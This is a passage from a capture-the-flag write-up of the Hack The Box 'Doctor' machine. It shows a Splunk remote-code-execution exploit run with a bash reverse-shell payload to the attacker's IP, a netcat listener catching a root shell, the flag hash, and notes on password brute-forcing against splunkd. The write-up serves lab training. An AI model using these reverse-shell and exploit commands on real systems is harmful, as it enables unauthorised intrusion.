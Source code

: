 In the exploit I had to configure some parameters

```text
┌──(zweilos㉿kali)-[~/htb/doctor]
└─$ python3 PySplunkWhisperer2_remote.py.1 --host doctors.htb --lhost 10.10.15.13 --lport 9001 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.15.13/8092 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp8o0jrwfy.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.15.13:9001/
10.10.10.209 - - [12/Feb/2021 21:34:40] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/doctor]
└─$ nc -lvnp 8092                                                                                   1 ⨯
listening on [any] 8092 ...
connect to [10.10.15.13] from (UNKNOWN) [10.10.10.209] 42328
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id && hostname
id && hostname
uid=0(root) gid=0(root) groups=0(root)
doctor
root@doctor:/# cd /root
cd /root
root@doctor:/root# cat root.txt
cat root.txt
3ce7f10b033ef2cdcfdd22eb598e649f
```

Got a root shell back, and collected my proof

Note: After finding the username of shaun, my password brute force method would have actually proved useful had I been a patient attacker. The vulnerable version of splunkd used here does not lock out accounts, so brute force is entirely feasible. The only problem is shown below.

```bash
┌──(zweilos㉿kali-[~/htb/doctor]
└─$ grep -n Guitar123 ~/rockyou_utf8.txt
2136945:Guitar123
```

I used grep to figure out whether `shaun`'s password existed in rockyou.txt, and found that it did indeed exist, but was on line 2,136,945!

